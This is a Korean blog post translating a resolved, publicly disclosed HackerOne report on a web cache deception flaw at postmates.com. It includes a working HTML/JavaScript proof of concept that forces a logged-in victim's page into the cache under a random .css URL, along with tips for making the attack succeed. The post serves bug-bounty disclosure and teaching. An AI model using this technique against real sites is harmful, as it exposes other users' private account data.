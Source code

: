 ```yaml
---
layout: post
title: 사용자 정보를 유출시킬 수 있는 웹 캐시 포이즈닝 (postmates.com)
categories: PoC
tags: [Bugbounty, CachePoisoning, Translation, Hackerone]
---
```

Web Cache Poisoning에 대해 설명되어있는 유튜브 영상 :
{% include youtube_embed.html id="1d1tUefYn4U" %}
- - -
출처 : [hackerone hacktivity, 작성자 : David Albert (davidalbert)] https://hackerone.com/reports/492841

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 2월 26일 오후 9시 37분에 공개되었습니다. Postmates에 리포팅 되었으며, 해당 페이지는 Postmates의 자산입니다. 취약점의 종류는 Violation of Secure Design Principles이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 해당 도메인에서 8.2/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
안녕하세요,

당신의 웹 서버는 웹 캐시 포이즈닝 공격에 취약합니다. 이 말은 즉, 공격자가 다른 사용자의 정보를 탈취할 수 있다는 것입니다.

예를 들어, 당신이 이 페이지에 방문하여 로그인을 한다고 가정하면 : https://postmates.com/SomeRandomText.css

서버는 캐시에 그 정보를 저장할 것입니다. 하지만 로그인 된 사용자의 정보가 저장이 될 것입니다 🙂 로그인하지 않은 사용자 여기 해당 사이트에 방문이 가능하며 그곳에 저장되어있는 정보를 볼 수 있습니다. 이 경우에는 다음 url이 해당됩니다 : https://postmates.com/SomeRandomText.css

저는 간단한 javascript/html 코드를 작성했고, 이것은 해당 공격을 완전히 자동화해서 실행시킬 수 있는 코드로, 당신은 해당 사이트에 방문해 3초만 기다리시면 됩니다.

여기 간단한 개념증명(PoC) 코드가 있습니다 :
{% highlight html %}
<html>
<head>
</head>
<body>
<script>
    var cachedUrl = 'https://postmates.com/' + generateId() + '.css';
    const popup = window.open(cachedUrl);

    function generateId() {
        var content = '';
        const alphaWithNumber = 'QWERTZUIOPASDFGHJUKLYXCVBNM1234567890';

        for (var i = 0; i < 10; i++) {
            content += alphaWithNumber.charAt(Math.floor(Math.random() * alphaWithNumber.length))
        }
        return content;
    }

    var checker = setInterval(function() {
        if (popup.closed) {
            clearInterval(checker);
        }
    }, 200);
    var closer = setInterval(function() {
        popup.close();
        document.body.innerHTML = 'Victims content is now cached <a href="' + cachedUrl + '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' + cachedUrl + '</b>'; 
        clearInterval(closer);
    }, 3000);

</script>
</body>
</html>
{% endhighlight %}
<div id="container">
	<div id="box">
		![1]({{site.baseurl}}/images/1_Logged_in_(Normal).png)]
	</div>
	<div id="box">
		![2]({{site.baseurl}}/images/2_Logged_in_(Normal).png)]
	</div>
	<div id="box">
		![3]({{site.baseurl}}/images/3_Not_Logged_in_(Private_Mode).png)]
	</div>
</div>
<div id="container">
	<div id="box">
		![4]({{site.baseurl}}/images/4_Not_Logged_in_(Private_Mode).png)]
	</div>
	<div id="box">
		![5]({{site.baseurl}}/images/5_Logged_in_Victim_visits_attackers_website_(Normal).png)]
	</div>
	<div id="box">
		![6]({{site.baseurl}}/images/6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode).png)]
	</div>
</div>
![7]({{site.baseurl}}/images/7_Attacker_can_get_important_informations_(Private_Mode).png)]

이론상으로, 공격자는 이 정보를 그 자신만의 서버에 저장할 수 있지만, 이 예시에서는 URL이 단지 보여지기만 했습니다. 웹사이트 보안을 위해 꾸준히 지켜봐주셨으면 합니다 그리고 제 리포트가 도움이 되었길 희망합니다.

해당 공격에 대한 몇가지 정보 : https://www.blackhat.com/docs/us-17/wednesday/us-17-Gil-Web-Cache-Deception-Attack.pdf

덧1) 개념증명(PoC) 프로젝트로써, 팝업을 허용하는 것은 중요합니다. 깜빡했네요 여기 첨부 파일이 있습니다 :
<a href="{{site.baseurl}}/attach/postmatesPoC.html" download>postmatesPoC 다운로드</a>

덧2) 지난번에 전혀 방문하지 않았던 URL이어야 합니다. 그러면 성공할 것이고 서버는 정보를 저장하게 될 것 입니다. URL의 끝은 반드시 ".css"로 해주세요.
- - -
# 영향
웹 캐시 포이즈닝 공격은 로그인 보안에 중요한 이름과 멤버 아이디와 같은 사용자 정보들을 훔칠 수 있습니다(예시로요).